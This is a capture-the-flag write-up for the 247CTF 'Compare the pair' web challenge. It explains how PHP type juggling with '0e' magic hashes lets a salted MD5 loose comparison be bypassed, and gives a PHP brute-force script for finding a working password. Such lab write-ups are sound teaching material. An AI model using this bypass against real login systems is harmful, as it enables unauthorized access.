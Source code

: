 ```yaml
---
title: "247CTF - Compare the pair [ WEB ]"
date: 2022-02-27T18:33:12-05:00
draft: false
---
```


## __Description__

Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?

## __Solution__

When opening the challenge link we find a code which is going to be vulnerable because of how PHP compares values.

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

PHP has a feature called `type juggling` or `type coercion`. This means that during the comparison of variables of different types, PHP will first convert them to a common, comparable type. Let's see the relevance of this in our code.

Note that the variable `password_hash` starts with 0e and everything else is numbers (php magic hashes) so it is considered as a float. 

```php
$password_hash = "0e902564435691274142490923013038";
```

If we continue reading the code, we will notice that a loose comparison is being made:

```php
isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash
```

Let's see what this type of comparison is about according to https://techgeekgalaxy.com/.

```
In PHP, variables of different data types can be compared using the loose comparison operator which is two equal signs (==). If two operands of different types are compared using loose comparison then there is an attempt to convert one or both of the operands and then compare them. The result of the conditional after conversion of an operand can sometimes lead to bugs or security exploits.
```

Once we have understood what it is all about, let's move on to the exploitation phase. The goal is quite simple, find a string that when mixed with the salt creates an MD5 hash starting with 0e and all other digits.

```php
<?php
$salt = "f789bbc328a3d1a3";
$x = 1;
while (True){
    if (md5($salt . $x) == 0){
        echo $x;
        $x++;
    } else{
        $x++;
    }
}
?>
```

The only thing missing would be to enter and pass the output to the password parameter.

```
https://76df5ddee940a4a1.247ctf.com/?password=<Output>
```

Thanks to Maiky for helping me solve the challenge, link to her [blog](https://maikypedia.gitlab.io/posts/).

I hope you liked! :D